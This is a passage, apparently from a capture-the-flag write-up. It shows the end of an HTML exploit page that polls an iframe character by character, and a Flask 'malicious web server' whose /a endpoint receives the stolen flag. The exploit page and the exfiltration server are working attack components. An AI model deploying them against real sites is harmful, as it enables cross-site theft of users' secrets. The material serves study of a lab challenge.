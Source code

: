 ```html
      chars_idx = 0
    }

    setTimeout(loadFrame, 300)
  }
</script>
<iframe id="frame" src='' onload="onLoad()"></iframe>
<script type="text/javascript">
  loadFrame()
</script>
</body>
</html>
```

#### Malicious web server
Very simple, CORS are certainly useless but it's a copy paste from our team notes to build a dummy web server ^^  
The /a endpoint will receive the flag, we can see that in the log of the service.
```python
from flask import Flask, render_template
from flask_cors import CORS, cross_origin
app = Flask(__name__, template_folder='templates')
cors = CORS(app)
app.config['CORS_HEADERS'] = 'Content-Type'

@app.route("/")
@cross_origin()
def helloWorld():
  return render_template('app.html')

@app.route("/a")
@cross_origin()
def helloWorld2():
  return ""
```
